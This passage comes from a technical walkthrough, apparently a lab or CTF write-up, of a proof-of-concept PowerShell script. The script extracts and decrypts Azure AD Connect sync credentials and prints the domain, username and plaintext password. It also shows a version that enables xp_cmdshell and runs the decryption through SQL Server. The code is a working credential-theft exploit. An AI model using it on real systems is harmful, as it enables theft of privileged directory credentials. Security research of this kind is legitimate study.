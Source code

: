 Now it decrypts:

    
    
    $decrypted = $null
    $key2.DecryptBase64ToString($crypted, [ref]$decrypted)
    

The rest is just formatting the output and printing:

    
    
    $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
    $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
    $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
    Write-Host ("Domain: " + $domain.Domain)
    Write-Host ("Username: " + $username.Username)
    Write-Host ("Password: " + $password.Password)
    

### New POC

#### Differences

Other than some additional print statements, the first two sections of the
[new POC](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c) are
exactly the same. The third part is new. Instead of fetching the keys and
decrypting in PowerShell, it passes those commands through `xp_cmdshell` so
that the database runs the commands:

    
    
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell.exe -c `"add-type -path ''C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'';`$km = New-Object -TypeName Microsoft.DirectoryServices.                 MetadirectoryServices.Cryptography.KeyManager;`$km.LoadKeySet([guid]''$entropy'', [guid]''$instance_id'', $key_id);`$key = `$null;`$km.GetActiveCredentialKey([ref]`$key);`$key2 = `$null;`$km.GetKey(1, [ref]`$key2);`$decrypted = `$null;`$key2.DecryptBase64ToString(''$crypted'', [ref]`$decrypted);Write-Host        `$decrypted`"'"
    $reader = $cmd.ExecuteReader()
    
    $decrypted = [string]::Empty
    
    while ($reader.Read() -eq $true -and $reader.IsDBNull(0) -eq $false) {
        $decrypted += $reader.GetString(0)
    }
    
    if ($decrypted -eq [string]::Empty) {
        Write-Host "[!] Error using xp_cmdshell to launch our decryption powershell"
        return
    }
    

#### Running It
